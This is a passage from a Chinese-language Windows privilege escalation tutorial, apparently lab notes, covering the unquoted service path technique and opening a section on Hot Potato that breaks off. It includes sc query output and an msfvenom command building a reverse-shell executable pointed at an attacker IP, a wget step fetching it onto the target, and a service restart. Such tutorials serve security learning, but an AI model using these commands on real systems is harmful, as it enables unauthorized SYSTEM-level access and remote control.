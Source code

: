 ```
显示：
```

C:\Users\user>sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files
\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\user>sc qc cmd
[SC] OpenService FAILED 1060:

The specified service does not exist as an installed service.

```

2. 可以重启这个服务。

3. 能够在利用路径写入文件。


## 思路

一个正常程序路径，比如：

```C:\Program Files\topservice folder\subservice subfolder\srvc.exe```

windows读取的应该是```C:\Program Files\topservice folder\subservice subfolder```的```srvc.exe```程序

但是有一种情况是，假如这个路径没有加引号，那么windows对于这个路径的读取处理依次为：

1. C:\Program.exe
2. C:\Program Files\topservice.exe
3. C:\Program Files\topservice folder\subservice.exe

即读取最近那个路径的第一个单词的同名exe文件，知道了这一点，如果我们可以将一个可执行文件放在我们知道服务正在寻找的位置，它可能由服务运行。 

## 如何利用

1. 生成一个可以利用的二进制反弹shell

> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.21.169 LPORT=4444 -f exe > common.exe

2. 在靶机里把该文件下载到可以使用的路径当中
> wget -O common.exe 10.13.21.169:8000/common.exe


3. 重启服务
> sc start 服务名称


# 9.热土豆升级（ Potato Escalation - Hot Potato）

> Hot Potato主要由三大部分组成，每一部分都对应一个已知类型的攻击技术，这些技术并不算新颖，但是使用这些技术的方式却令人耳目一新。微软已经深知这些攻击技术，不幸的是，在不破坏系统向后兼容性的情况下，这些问题很难被修复，所以攻击者已经使用这些技术很多年了。

## 如何利用
```